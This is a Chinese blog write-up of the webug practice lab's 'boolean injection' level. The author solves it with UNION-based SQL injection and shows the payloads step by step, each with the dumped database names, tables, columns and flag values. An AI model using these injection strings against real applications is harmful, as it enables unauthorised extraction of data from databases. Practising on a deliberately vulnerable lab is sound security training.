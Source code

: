 ```yaml
---
title: webug之布尔注入
toc: true
description: >-
summary: >-
    本来想写关于 sqli-lib less 5 的笔记的，结果总感觉它不是那种很经典的布尔盲注的例子，还是 webug 这个比较恰当、正常。ps:然并软,
    webug 这个布尔注入, 也是虚晃一枪, 有显示位,故我采用的回显注入.
categories:
    - websec
    - sql injection
date: 2019-07-27 10:52:35
tags:
---
```


# **基于布尔的盲注简介**

**Web 的页面的仅仅会返回 True 和 False 两种状态**，对咱们来说，也就是正常和不正常。当然，这个不正常的是怎么不正常，样子就多了。比如：网页中的某处缺少一块元素，某些位置不能正常显示等。

那么布尔盲注就是进行 SQL 注入之后然后根据页面返回的 True 或者是 False （也是就是页面是否显示正常）来得到数据库中的相关信息。

就先介绍这些基础知识，便于我们注入的时候判断是不是布尔

## 检测注入点

### 单引号测试

测试后，我们发现

> 站长下载()是中国最大的站长类资源下载网站，提供最新最全的源码和站长类工具下载，专设源码报导栏目提供权威的源码评测和教程，推荐国内外优秀源码。

相较于 id = 1 正常显示页面，我们加单引号之后，这一段文字没有了，即：页面显示不正常了。

### 注释测试

?id=1' --+ 页面显示正常

由此，我们得出两点：

1. 没有报错提示，只有显示正常与不正常。基于我们对布尔盲注的认识，我们认为这可能是布尔盲注。
2. 这里我们猜测是字符型的 id = '1'

如果不确定的话，我们还可以进行一下测试

1. 用双引号测试，又发现正常显示。（我们也不必着急去猜测 sql 查询语句，因为没有报错，没办法猜。）
2. id = -1，显示不正常

在我们仍不确定是否是布尔盲注的时候，我们接着按照回显注入的流程进行

## order by 猜字段

首先在猜字段的过程中，页面没有任何报错，只有正常与正常显示。order by 2 时，显示正常，order by 3 时，显示不正常。故字段数为 2

## 确定显示位

?id=1' union select 1,2 --+

我们突然发现第二个字段是个显示位，就上面说的时不时消失的那段话的尾部。

嗯，本来想讲布尔盲注的，看来 webug 的这个题设置的也不好 emm。

其实前期，页面不报错，只有正常与不正常显示，是布尔盲注的一大特定。但这也不经意交给我们一个道理：不要完全相信经验（那些特征等），只有根据实际情况，才能做出最佳的判断，回显注入可比布尔盲注轻松多了。

## 爆版本等信息

```php
?id=1' union select 1,concat_ws(', ',version(),database(),user(),@@datadir,@@version_compile_os) --+
```

或

```php
?id=-1' union select 1,concat_ws(', ',version(),database(),user(),@@datadir,@@version_compile_os) --+
```

从这里我们知道 id = 1 查询的就是那段话。
回显：5.5.53, webug, root@localhost, C:\phpStudy\MySQL\data\, Win32

## 爆库名

```php
?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata --+
```

回显：information_schema,challenges,mysql,performance_schema,security,webug,webug_sys,webug_width_byte

## 爆 webug 库中的表

```php
?id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='webug' --+
```

回显：data_crud,env_list,env_path,flag,sqlinjection,user,user_test

## 爆 flag 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' --+
```

回显：id,flag

虽然之前回显注入那一关, 就是用的这个库里面的 flag, 我还是义无反顾地爆了这个表的内容 emm(不知道当时怎么想的...)

### 爆表中的数据

```php
?id=-1' union select 1,group_concat(concat_ws(', ',id,flag) SEPARATOR ';') from flag --+
```

回显：1, dfafdasfafdsadfa

提交 flag 果然不对.

## 爆 sqlinjection 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='sqlinjection' --+
```

回显：id,content,id,content
奇怪，列名还能重复？？？经过查证, webug 里面有两个 sqlinjection 表，另一个表在 webug_width_byte 库中，该表也有 id，content 两个字段，
**经验教训：爆字段名时，将库名和表名都要指定，避免出现不同库出现相同表的原因。**

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='webug' and table_name='sqlinjection' --+
```

### 爆表中的数据

```php
?id=-1' union select 1,group_concat(concat_ws(', ',id,content) separator '; ') from sqlinjection --+
```

内容:
1, 站长下载....优秀源码。;
2, hello

又没有 flag

## 爆 data_crud 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='data_crud' --+
```

回显:
id,name,age,email,gender

看着不像 flag

## 换表: env_list

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='env_list' --+
```

回显: id,envName,envDesc,envIntegration,delFlag,envFlag,level,type

### 爆 delFlag 和 envFlag 字段内容

```php
?id=-1' union select 1,group_concat(concat_ws(', ',delFlag,envFlag) separator '; ') from env_list --+
```

回显了一堆呀:
0, dfafdasfafdsadfa; 0, fdsafsdfa; 0, gfdgdfsdg; 0, dsfasdczxcg; 0, safsafasdfasdf; 0, dfsadfsadfas; 0, ddfasdfsafsadfsd; 0, ; 0, fsdafasdfas; 0, asdfsdfadfsdrew; 0, htryyujryfhyjtrjn; 0, uoijkhhnloh; 0, poipjklkjppoi; 0; 0, sadfvgsadfhe; 0, poiplmkounipoj; 0, sadfsadfsdadf; 0, sdfasdfgfddst; 0, vnghuytiuygui; 0, sadfhbvjyyiyukuyt; 0, vbchjgwestruyi; 0; 0; 0; 0; 0; 0; 0; 0; 0

看来 delFlag 好多是 0, 还是不看它了.

简化一下:

```php
?id=-1' union select 1,group_concat(envFlag separator '; ') from env_list group by delFlag --+
```

回显:

dfafdasfafdsadfa; sadfsadfsdadf; sdfasdfgfddst; vnghuytiuygui; sadfhbvjyyiyukuyt; vbchjgwestruyi; poiplmkounipoj; sadfvgsadfhe; fdsafsdfa; gfdgdfsdg; dsfasdczxcg; safsafasdfasdf; dfsadfsadfas; ddfasdfsafsadfsd; ; fsdafasdfas; asdfsdfadfsdrew; htryyujryfhyjtrjn; uoijkhhnloh; poipjklkjppoi

这么一堆 flag 难道是 webug 所有的 flag? 瞬间开心,一个个试,试出 fdsafsdfa 为布尔注入这一关的 flag.

至此, 不小心发现的使用回显注入的布尔注入题目完结.

布尔注入我还是再找一个别的注入点写吧.

# 总结回顾

1. 在进行注入点测试之前，先大致看一下页面，这样如果是布尔盲注，可以在测试时，快速发现,当然,如果前期有些特征,不要着急用布尔盲注,可以先试试回显注入。
2. **爆字段名时，将库名和表名都要指定，避免出现不同库出现相同表的原因。**
